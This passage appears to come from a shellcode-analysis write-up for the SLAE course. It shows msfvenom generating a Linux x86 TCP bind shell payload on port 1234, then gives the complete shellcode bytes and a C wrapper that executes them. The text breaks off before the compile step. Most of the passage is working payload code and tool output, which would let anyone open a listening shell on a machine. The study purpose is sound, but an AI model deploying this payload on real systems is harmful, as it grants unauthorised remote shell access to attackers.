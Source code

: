 ## Shellcode No.1 - TCP Bind Shell ##

<p style="text-align: justify;">At first glance, we'll take payload linux/x86/shell_bind_tcp, very similar to the shellcode we wrote in the first SLAE exam task.</p>

------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">We generate shellcode using the msfvenom script, belonging to the Metasploit-framework, giving as arguments the payload we choose, LPORT, i.e. the port on which our bind_shell is to listen, as well as the language in which our shellcode will be used, in this case - C.</p>

```bash
$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">Next, we place the generated shellcode in the so-called C language wrapper, which will allow us to easily test its effectiveness. We create a shellcode.c file with the following content:</p>

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">Then, we compile the program using GCC software, along with the appropriate parameters.</p>
